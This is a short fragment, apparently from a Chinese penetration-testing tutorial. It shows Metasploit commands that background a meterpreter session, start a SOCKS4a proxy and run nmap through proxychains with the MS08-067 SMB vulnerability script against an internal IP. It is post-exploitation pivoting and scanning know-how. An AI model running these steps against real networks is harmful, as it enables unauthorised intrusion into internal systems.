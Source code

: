 	meterpreter > background
	msf > use auxiliary/server/socks4a
	再配置proxychains.conf
	>proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-ms08-067.nse 内网IP
